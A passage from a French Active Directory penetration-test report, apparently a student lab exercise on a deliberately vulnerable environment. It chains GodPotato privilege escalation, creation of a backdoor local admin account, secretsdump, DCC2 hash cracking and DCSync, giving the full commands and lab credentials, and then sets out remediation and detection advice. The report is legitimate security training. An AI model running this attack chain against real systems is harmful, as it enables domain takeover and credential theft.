

**`SeImpersonatePrivilege` confirmé** sur le compte `north\sql_svc`.

---

### 8.5 V05 — Élévation locale via SeImpersonatePrivilege (GodPotato)

#### Fiche vulnérabilité

| Champ | Valeur |
|-------|--------|
| **Identifiant** | V05 |
| **CWE** | CWE-269 (Improper Privilege Management) |
| **Composant** | Windows Server 2019 — compte de service `sql_svc` |
| **Vecteur** | Local, sous le contexte d'exécution de `sql_svc` |
| **Criticité** | Critique (CVSS 9.8) |
| **MITRE ATT&CK** | T1134.001 — Token Impersonation/Theft |
| **Outil** | GodPotato v1.20 (BeichenDream, public domain) |

#### Principe technique

Le privilège `SeImpersonatePrivilege` permet à un processus d'usurper le token d'un client qui s'authentifie auprès de lui. GodPotato exploite cette caractéristique en :

1. Créant un faux serveur **RPC named pipe** local ;
2. Forçant un service Windows privilégié (`RpcSs`) à s'y authentifier en se faisant passer pour SYSTEM via les mécanismes COM/DCOM ;
3. Récupérant le token SYSTEM exposé lors de cette authentification ;
4. Démarrant un processus arbitraire avec ce token grâce à `SeImpersonatePrivilege`.

GodPotato est la variante la plus récente de la famille « Potato » (RottenPotato → JuicyPotato → RoguePotato → PrintSpoofer → GodPotato), efficace de Windows Server 2012 R2 à Server 2022.

#### Préparation

Téléchargement du binaire officiel sur le Kali :

```bash
mkdir -p tools
wget -q https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe \
  -O tools/GodPotato-CG-13-05-2026.exe

sha256sum tools/GodPotato-CG-13-05-2026.exe > logs/p4-godpotato-sha256-CG-13-05-2026.log
```

#### Upload sur la cible

CASTELBLACK expose un partage SMB ouvert en écriture (`all` ou `public` selon la version du lab). On utilise `jon.snow` pour y déposer le binaire :

```bash
smbclient //192.168.56.22/all \
  -U 'north.sevenkingdoms.local\jon.snow%iknownothing' \
  -c 'put tools/GodPotato-CG-13-05-2026.exe GodPotato-CG-13-05-2026.exe' \
  > logs/p4-smb-upload-CG-13-05-2026.log
```

#### Détonation via xp_cmdshell

```bash
netexec mssql 192.168.56.22 \
  -u jon.snow -p iknownothing \
  -x 'C:\Shares\all\GodPotato-CG-13-05-2026.exe -cmd "cmd /c whoami"' \
  | tee logs/p4-godpotato-detonation-CG-13-05-2026.log
```

#### Résultat



**OBJECTIF ATTEINT : `NT AUTHORITY\SYSTEM` sur CASTELBLACK** !

#### Impact

L'obtention de SYSTEM sur CASTELBLACK permet, entre autres :
- Dump des hashs locaux du fichier SAM ;
- Extraction des secrets LSA et des credentials cachés en mémoire ;
- Installation de portes dérobées persistantes ;
- Préparation de la **dernière étape** : DCSync sur le DC.

---

### 8.6 V06 — DCSync sur le domaine NORTH

#### Fiche vulnérabilité

| Champ | Valeur |
|-------|--------|
| **Identifiant** | V06 |
| **CWE** | CWE-284 (Improper Access Control) — combiné à CWE-522 (Insufficiently Protected Credentials) sur la chaîne LSA/DCC2 amont |
| **Composant** | Droits de réplication AD du domaine `north.sevenkingdoms.local` (DC WINTERFELL) |
| **Vecteur** | Réseau — appel DRSUAPI `GetNCChanges` depuis un compte de domaine privilégié |
| **Criticité** | Critique (CVSS 9.1) |
| **MITRE ATT&CK** | T1003.006 (DCSync), T1003.001/002/005 (LSA / SAM / DCC2) en amont |

#### Principe

Le DCSync abuse de l'API de réplication Active Directory (DRSUAPI). Tout compte disposant des droits étendus **`DS-Replication-Get-Changes`** et **`DS-Replication-Get-Changes-All`** peut demander au DC de répliquer le contenu de l'annuaire, **dont les secrets** (hashs NT, clés Kerberos, history). Ces droits sont accordés par défaut aux **Domain Admins**, Enterprise Admins et au compte machine du DC lui-même.

L'attaquant n'a donc pas besoin d'exécuter du code sur le DC : il lui suffit d'authentifier un compte privilégié et d'émettre la requête de réplication depuis n'importe quelle machine du LAN.

#### Pré-requis : obtention d'un compte Domain Admin

À ce stade, j'ai SYSTEM sur CASTELBLACK (V05) mais aucun compte de domaine privilégié. La progression vers un DA s'est faite via les credentials cachés localement sur la machine compromise.

##### Étape 1 — Persistance et exécution de secretsdump local

Plutôt que de relancer GodPotato pour chaque commande, j'ai d'abord créé un compte admin local persistant via la même chaîne d'exécution :

```bash
netexec mssql 192.168.56.22 \
  -u jon.snow -p iknownothing \
  -x 'C:\Shares\all\GodPotato-CG-13-05-2026.exe -cmd "cmd /c net user backdoorCG P@ssw0rd2026! /add && net localgroup Administrators backdoorCG /add"' \
  | tee logs/p4-backdoor-create-CG-13-05-2026.log
```

**Output :**



GodPotato a basculé d'`NT AUTHORITY\NETWORK SERVICE` (compte porteur de `SeImpersonatePrivilege` exposé par le worker MSSQL) à `NT AUTHORITY\SYSTEM`, puis a créé en SYSTEM le compte `backdoorCG` et l'a ajouté au groupe `Administrators` local.

Exécution de secretsdump en authentifié admin local :

```bash
impacket-secretsdump 'backdoorCG:P@ssw0rd2026!@192.168.56.22' \
  > loot/secretsdump-castelblack-CG-13-05-2026.log
```

**Output :**



##### Étape 2 — Analyse des trouvailles

**a) Mot de passe en clair du compte de service `sql_svc`**

```
_SC_MSSQL$SQLEXPRESS
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
```

Le secret LSA `_SC_MSSQL$SQLEXPRESS` correspond au mot de passe que Windows utilise pour redémarrer automatiquement le service MSSQL. Stocké de manière réversible (chiffré uniquement avec la clé système, déchiffrable par tout admin local), il est lisible par tout attaquant disposant de SYSTEM.

L'ironie est totale : le mot de passe choisi est `YouWillNotKerboroast1ngMeeeeee` — l'administrateur a explicitement opté pour un mot de passe résistant au Kerberoasting (long, alphanumérique avec lettres mélangées), pensant ainsi protéger le compte. Cette précaution est anéantie dès qu'un attaquant accède aux LSA Secrets via SYSTEM local.

**Nouveau credential obtenu** : `sql_svc:YouWillNotKerboroast1ngMeeeeee`

**b) Hashs DCC2 (cached credentials)**

Windows met en cache les 10 derniers logons interactifs/réseau pour permettre une authentification offline. Sur CASTELBLACK on retrouve :

- `sql_svc` (attendu, mot de passe déjà connu via LSA) ;
- **`robb.stark`** — utilisateur du domaine NORTH s'étant connecté récemment (timestamp `2026-05-13 04:30:49 UTC`). Robb Stark est un candidat probable au groupe Domain Admins (convention du lab : famille Stark = administration de NORTH).

**c) Hash machine `CASTELBLACK$` et Administrator local**

```
NORTH\CASTELBLACK$:...:b8bbb14d4abd1760b2abb777ac0cb1bc
Administrator:500:...:dbd13e1c4e338284ac4e9874f7de6ef4
```

Réutilisables pour Silver Tickets / RBCD / Pass-the-Hash inter-serveurs.

##### Étape 3 — Tentative de DCSync direct avec `sql_svc`

Avec `sql_svc` en clair, j'ai testé si ce compte disposait par erreur des droits de réplication :

```bash
impacket-secretsdump -just-dc \
  north.sevenkingdoms.local/sql_svc:'YouWillNotKerboroast1ngMeeeeee'@192.168.56.11 \
  > logs/p4-dcsync-attempt-sqlsvc-CG-13-05-2026.log 2>&1
```

**Résultat :** échec attendu (`ERROR_DS_DRA_ACCESS_DENIED`) — `sql_svc` n'a pas les droits `DS-Replication-Get-Changes`. C'est la configuration correcte ; un compte de service applicatif ne doit jamais avoir ces droits.

##### Étape 4 — Cassage du DCC2 de `robb.stark`

```bash
echo '$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405' \
  > loot/dcc2-robbstark-CG-13-05-2026.hash

hashcat -m 2100 loot/dcc2-robbstark-CG-13-05-2026.hash \
  /usr/share/wordlists/rockyou.txt --force \
  -o loot/dcc2-robb-cracked-CG-13-05-2026.txt \
  | tee logs/p4-hashcat-dcc2-CG-13-05-2026.log
```

> ⚠️ DCC2 utilise PBKDF2-SHA1 sur 10 240 itérations. Le cassage est intrinsèquement lent (quelques milliers de hashs/s sur CPU), ce qui rend ce hash résistant à la force brute pure mais transparent à une attaque par dictionnaire si le mot de passe est commun.

**Résultat :**



```
$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405:sexywolfy
```

**Credential acquis** : `robb.stark:sexywolfy`

##### Étape 5 — Validation du privilège Domain Admin

```bash
netexec smb 192.168.56.11 -u robb.stark -p 'sexywolfy' \
  -d north.sevenkingdoms.local \
  | tee logs/p4-validate-robbstark-CG-13-05-2026.log
```

**Output :**



Le tag `(Pwn3d!)` de NetExec sur WINTERFELL confirme que `robb.stark` dispose des droits administratifs sur le DC du domaine NORTH — il est bien membre de `Domain Admins`.

#### Exécution du DCSync

```bash
impacket-secretsdump -just-dc \
  -outputfile loot/dcsync-north-CG-13-05-2026 \
  'north.sevenkingdoms.local/robb.stark:sexywolfy@192.168.56.11' \
  | tee logs/p4-dcsync-north-CG-13-05-2026.log
```

**Output :**



Trois fichiers sont produits :

- `loot/dcsync-north-CG-13-05-2026.ntds` — hashs NT de **tous les comptes du domaine** ;
- `loot/dcsync-north-CG-13-05-2026.sam` — comptes locaux du DC ;
- `loot/dcsync-north-CG-13-05-2026.secrets` — clés Kerberos, secrets LSA du DC.

#### Trouvailles critiques

**1. Hash NT du compte `krbtgt`**

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<HASH_NT_KRBTGT>:::
Kerberos keys:
  krbtgt:aes256-cts-hmac-sha1-96:<AES256_KEY>
  krbtgt:aes128-cts-hmac-sha1-96:<AES128_KEY>
  krbtgt:des-cbc-md5:<DES_KEY>
```

> Hashs masqués partiellement dans le rapport public. Valeurs complètes dans `loot/dcsync-north-CG-13-05-2026.ntds` (exclu du repo via `.gitignore`).

La possession de ce hash permet la forge de **Golden Tickets** : un TGT signé par le KDC pour n'importe quel utilisateur, avec n'importe quels groupes, valable par défaut 10 ans. Cette persistance est quasi-impossible à révoquer sans **deux rotations consécutives** du compte `krbtgt` (l'historique conserve la clé N-1).

**2. Intégralité de la base AD du domaine NORTH**

12 comptes utilisateurs extraits avec leurs hashs NT (cf. annexe § 15.2), incluant les membres du groupe `Domain Admins` (eddard.stark, catelyn.stark, robb.stark) et le compte machine de chaque membre du domaine.

#### Impact

L'exécution du DCSync constitue la **compromission complète du domaine** `north.sevenkingdoms.local` :

| Capacité débloquée | Conséquence opérationnelle |
|--------------------|----------------------------|
| Hash NT de tous les utilisateurs NORTH | Pass-the-Hash sur tout service du domaine, sans connaissance des mots de passe |
| Clés Kerberos `krbtgt` | Forge de Golden Tickets — persistance ≈ 10 ans, indétectable sans supervision spécifique |
| Hashs des comptes machine | Forge de Silver Tickets pour chaque service ; abus RBCD |
| Hash NT `Administrator` du domaine | Authentification directe sur tout serveur du domaine |

À cette étape, **aucun secret du domaine NORTH n'est inaccessible à l'attaquant**.

#### Ouverture vers le domaine parent

Le hash `krbtgt` extrait ouvre par ailleurs un vecteur supplémentaire vers le domaine **parent** `sevenkingdoms.local` via l'attaque **Golden Ticket cross-domain** (ajout du SID de `Enterprise Admins` du parent dans l'`ExtraSids` du PAC). Cette extension est documentée en § 11 mais n'a pas été exécutée dans le cadre de la mission (hors scope temporel).


---

## 9. Kill chain consolidée & impact

### 9.1 Récapitulatif chronologique

| Étape | Action | Privilège obtenu | Vuln. | Durée |
|:----:|--------|------------------|:----:|:----:|
| 0 | Accès LAN initial | Visiteur réseau | — | — |
| 1 | Password spray `--no-bruteforce` | `hodor` (utilisateur basique NORTH) | V01 | 5 min |
| 2 | Énumération anonyme SMB → description AD | `samwell.tarly` (utilisateur basique NORTH) | V02 | 10 min |
| 3 | Kerberoasting + hashcat | `jon.snow` (sysadmin MSSQL) | V03 | 15 min |
| 4 | `xp_cmdshell` via NetExec | `north\sql_svc` (compte service) | V04 | 5 min |
| 5 | GodPotato 1.20 | **`NT AUTHORITY\SYSTEM`** sur CASTELBLACK | V05 | 10 min |
| 6 | secretsdump → DCC2 cracking → DCSync | **Tous les hashs du domaine NORTH** | V06 | 90+ min |

### 9.2 Représentation graphique



### 9.3 Impact métier

L'obtention de SYSTEM sur CASTELBLACK et le DCSync du domaine NORTH permettent à un attaquant :

- **Accès intégral** au système de fichiers et aux applications hébergées sur CASTELBLACK (IIS, MSSQL et bases de données associées) ;
- **Reproduction de tickets Kerberos** sur le domaine NORTH (Golden Tickets via le hash `krbtgt`) — persistance quasi permanente impossible à révoquer sans réinitialiser `krbtgt` deux fois consécutivement ;
- **Authentification possible en tant que n'importe quel utilisateur** du domaine NORTH grâce aux hashs NT (Pass-the-Hash, Overpass-the-Hash) ;
- **Exploitation de la relation de confiance** parent/enfant pour potentiellement atteindre Enterprise Admin sur `sevenkingdoms.local` (cf. § 11).

Sur un SI réel, cela équivaudrait à la perte totale de la confidentialité, de l'intégrité et de la disponibilité du périmètre AD audité.

---

## 10. Recommandations de remédiation

Les recommandations sont classées par priorité décroissante et associées à un délai de traitement recommandé.

### 10.1 Recommandations critiques (action sous 30 jours)

**R01 — Renforcer la politique de mot de passe**
Établir une longueur minimale de **14 caractères**, activer la complexité, désactiver l'expiration trop courte (laquelle pousse les utilisateurs à des variations triviales). Évaluer la mise en place d'**Azure AD Password Protection** ou équivalent on-prem pour bannir les mots de passe communs (rockyou, top-1000, dictionnaire métier).
→ Couvre **V01**.

**R02 — Auditer et nettoyer les attributs LDAP**
Mettre en place un audit récurrent des champs `description`, `info`, `comment` des objets utilisateurs et machines pour s'assurer qu'aucune information sensible n'y figure. Outils utilisables : PingCastle, PurpleKnight, Get-ADUser PowerShell + grep sur dictionnaire de termes interdits.
→ Couvre **V02**.

**R03 — Migrer les comptes de service kerberoastables vers gMSA**
Les Group Managed Service Accounts (gMSA) gèrent automatiquement la rotation des mots de passe machine (30 jours par défaut) avec un mot de passe de 240 caractères impossible à casser. Sinon, à défaut, imposer un mot de passe d'au moins **25 caractères aléatoires** sur tous les comptes ayant un SPN.
→ Couvre **V03**.

**R04 — Désactiver `xp_cmdshell` sur toutes les instances SQL Server**
À effectuer via `sp_configure 'xp_cmdshell', 0; RECONFIGURE;`. Pour les rares cas où l'administration nécessite une exécution OS depuis SQL, utiliser des comptes dédiés et auditer chaque appel.
→ Couvre **V04**.

**R05 — Retirer `SeImpersonatePrivilege` des comptes de service inutiles**
Privilégier les **Virtual Accounts** (`NT SERVICE\<NomService>`) qui n'héritent pas de ce privilège par défaut, plutôt que des comptes de domaine. Pour SQL Server : configurer le service sous `NT SERVICE\MSSQLSERVER`.
→ Couvre **V05**.

**R06 — Activer la supervision et la détection des actions DCSync**
Mettre en place une règle SIEM sur les événements **4662** (Operation: Object Access) avec les GUIDs `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (Replicating Directory Changes) et `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` (Replicating Directory Changes All). Tout appel DCSync depuis un compte non-DC doit déclencher une alerte critique.
→ Couvre **V06**.

### 10.2 Recommandations élevées (action sous 90 jours)

**R07 — Forcer SMB Signing partout**
Activer **« Microsoft network server: Digitally sign communications (always) »** sur tous les serveurs (pas seulement les DC). Cela empêche les attaques de NTLM Relay.
→ Couvre **V07**.

**R08 — Désactiver les sessions SMB nulles**
Configurer via GPO :
- `Network access: Allow anonymous SID/Name translation` → **Disabled**
- `Network access: Do not allow anonymous enumeration of SAM accounts and shares` → **Enabled**
- `Network access: Restrict anonymous access to Named Pipes and Shares` → **Enabled**

**R09 — Retirer `DontReqPreAuth` de tous les comptes utilisateur**
Vérifier l'attribut `userAccountControl` avec le bit `0x400000` :
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} | Select Name
```
→ Couvre **V08**.

**R10 — Réactiver Windows Defender (ou équivalent) sur CASTELBLACK**
Aucun serveur en production ne devrait fonctionner sans solution antimalware/EDR active.
→ Couvre **V09**.

### 10.3 Recommandations stratégiques (à inscrire au plan SSI)

**R11 — Modèle de tiering Active Directory**
Implémenter le modèle Microsoft à trois niveaux (Tier 0 = DC et infra critique, Tier 1 = serveurs, Tier 2 = postes), avec interdiction stricte de réutilisation des comptes admin entre tiers.

**R12 — Déployer LAPS / Windows LAPS**
Gestion centralisée et rotation automatique des mots de passe administrateur locaux des serveurs et postes.

**R13 — Audit AD régulier via BloodHound**
Effectuer **mensuellement** une collecte BloodHound côté défense (BloodHound CE accepte ce mode) pour identifier les chemins d'attaque émergents (ACL toxiques, sessions privilégiées exposées, etc.).

**R14 — Pentest annuel et purple team**
Au-delà de l'audit ponctuel, instituer un cycle de tests d'intrusion annuels et des exercices purple team (collaboration Red/Blue) pour valider la détection.

---

## 11. Vulnérabilités identifiées non exploitées

Conformément à la limite de temps de la mission (1 journée), plusieurs vecteurs ont été identifiés mais non exploités. Ils constituent autant d'opportunités pour un attaquant disposant de davantage de temps, et autant de surfaces à couvrir côté défense :

| Vecteur | Description | Effort estimé |
|---------|-------------|---------------|
| **AS-REP Roasting sur brandon.stark** | Attribut `DontReqPreAuth` activé → récupération possible d'un hash AS-REP crackable hors-ligne sans aucune interaction préalable | 15 min |
| **NTLM Relay vers CASTELBLACK** | SMB signing non requis (V07) + bots LLMNR → relay vers un partage administratif | 1-2 h |
| **ADCS ESC1 sur KINGSLANDING** | Service AD CS Web Enrollment exposé sur le port 80 → escalade éventuelle via certificat sur template vulnérable | 2-3 h |
| **MSSQL trusted links** | Si des liens de confiance sont configurés entre instances SQL, pivot SQL → SQL avec impersonation | 1-2 h |
| **Golden Ticket cross-domain** | Le hash `krbtgt` extrait (V06) permet la forge d'un TGT avec ExtraSID = Enterprise Admins du parent → compromission de toute la forêt via `impacket-raiseChild` | 30 min |

Le dernier point (Golden Ticket cross-domain) est particulièrement notable : techniquement, **toute la forêt** `sevenkingdoms.local` est à un script d'écart de la compromission complète, étant donné la quantité d'informations déjà extraites en phase 4.6.

---

## 12. Limites & axes d'amélioration

### 12.1 Limites de la mission

- **Temps imparti** : une journée de TP (sans compter l'oral), ce qui exclut les exploitations longues (ADCS, trust forest, persistance avancée) ;
- **Pas de bypass EDR** : la mission ne testait pas la résilience aux outils de détection commerciaux ;
- **Pas d'analyse défensive (Blue Team)** : aucun SIEM/Sysmon n'a été déployé pour mesurer la détectabilité des techniques utilisées ;
- **Lab pédagogique** : les configurations sont volontairement vulnérables et ne reflètent pas toutes les nuances d'un SI réel.

### 12.2 Ce qui aurait été fait avec plus de temps

1. **Compléter la kill chain forêt** : pousser jusqu'à Enterprise Admin via Golden Ticket cross-domain ;
2. **Démonstration de persistance** : implant beacon Sliver C2 sur CASTELBLACK avec C2 mTLS ;
3. **Volet défensif** : déploiement d'une stack Wazuh + Sysmon sur les serveurs, et démonstration des événements générés par chaque étape de l'attaque (visibilité Blue Team) ;
4. **Documentation vidéo** : enregistrement asciinema des séquences-clés pour annexes.

---

## 13. Gestion Git & livrables

### 13.1 Structure du repo

```
E5_5OSATTK_CACCIATORE/
├── README.md
├── 5OSATTK_CACCIATORE_Rapport.md           ← ce document
├── .gitignore
├── img/
├── logs/
│   ├── p1-discovery-CG-13-05-2026.txt
│   ├── p1-netexec-smb-CG-13-05-2026.log
│   ├── p1-nmap-*-CG-13-05-2026.nmap
│   ├── p2-enum4linux-*-CG-13-05-2026.*
│   ├── p2-validate-samwell-CG-13-05-2026.log
│   ├── p2-getadusers-*-CG-13-05-2026.log
│   ├── p2-pass-pol-CG-13-05-2026.log
│   ├── p4-spray-CG-13-05-2026.log
│   ├── p4-kerberoast-CG-13-05-2026.log
│   ├── p4-hashcat-kerberoast-CG-13-05-2026.log
│   ├── p4-mssql-validate-CG-13-05-2026.log
│   ├── p4-xpcmdshell-*-CG-13-05-2026.log
│   ├── p4-smb-upload-CG-13-05-2026.log
│   ├── p4-godpotato-detonation-CG-13-05-2026.log
│   ├── p4-secretsdump-castelblack-CG-13-05-2026.log
│   ├── p4-dcsync-north-CG-13-05-2026.log
│   ├── p4-backdoor-create-CG-13-05-2026.log
│   ├── p4-dcsync-attempt-sqlsvc-CG-13-05-2026.log
│   ├── p4-validate-robbstark-CG-13-05-2026.log
│   └── p4-hashcat-dcc2-CG-13-05-2026.log
│   └── history-projet-CACCIATORE-VINCENT.log
├── wordlists/
│   └── north-users-CG-13-05-2026.txt
├── loot/
│   ├── kerberoast-CG-13-05-2026.hash             (⚠️ exclus du repo si public)
│   ├── kerberoast-cracked-CG-13-05-2026.txt      (⚠️ exclus du repo si public)
│   ├── secretsdump-castelblack-CG-13-05-2026.txt (⚠️ exclus)
│   ├── dcc2-robbstark-CG-13-05-2026.hash         (⚠️ exclus)
│   ├── dcsync-north-CG-13-05-2026.ntds           (⚠️ exclus)  
│   ├── dcc2-robb-cracked-CG-13-05-2026.txt       (⚠️ exclus)
│   ├── dcsync-north-CG-13-05-2026.sam            (⚠️ exclus)  
└── tools/
    └── GodPotato-CG-13-05-2026.exe                (⚠️exclu)
```

### 13.2 .gitignore

```gitignore
# Données sensibles - ne jamais publier
loot/*.hash
loot/*-cracked-*.txt
loot/*.ntds
loot/secretsdump-*
loot/dcsync-*
loot/dcc2-*
*.ccache
*.kirbi

# Système
.DS_Store
*.swp
__pycache__/
```

### 13.3 Export demandé

```bash
# Historique des commandes shell
history > logs/history-projet-CACCIATORE-VINCENT.log
```

---

## 14. Conclusion

### 14.1 Bilan

Cet audit démontre, sur un cas pédagogique mais représentatif, qu'**un attaquant disposant d'un simple accès LAN, sans la moindre CVE applicative et sans 0-day**, peut compromettre une partie significative d'un Active Directory en quelques heures. La chaîne mise en œuvre repose intégralement sur des **mauvaises configurations** : pas un seul logiciel n'a été exploité au sens classique du terme.

Six vulnérabilités enchaînées, chacune individuellement de gravité élevée à critique, ont permis :
1. D'obtenir deux comptes utilisateurs standards sans authentification préalable ;
2. D'élever ces droits vers `sysadmin` SQL via Kerberoasting ;
3. D'exécuter du code sous le compte de service `sql_svc` ;
4. D'élever vers `NT AUTHORITY\SYSTEM` via abus de privilège Windows ;
5. De récupérer l'intégralité des hashs du domaine NORTH via DCSync.

### 14.2 Enseignements

**Côté défense** : la sécurité d'un AD repose sur des hygiènes fondamentales — politique de mot de passe, hygiène des comptes de service, durcissement des serveurs applicatifs, supervision des actions critiques — bien plus que sur des produits onéreux. Un EDR coûteux n'arrête pas un mot de passe `hodor:hodor` ou un mot de passe stocké en clair dans `description`.

**Côté offensif** : l'efficacité d'une mission ne tient pas à la sophistication des outils mais à la capacité à enchaîner intelligemment des techniques classiques. La stack open-source utilisée ici (Nmap, NetExec, Impacket, Hashcat, GodPotato) suffit à compromettre la majorité des SI AD audités en mission réelle.

### 14.3 Suites recommandées

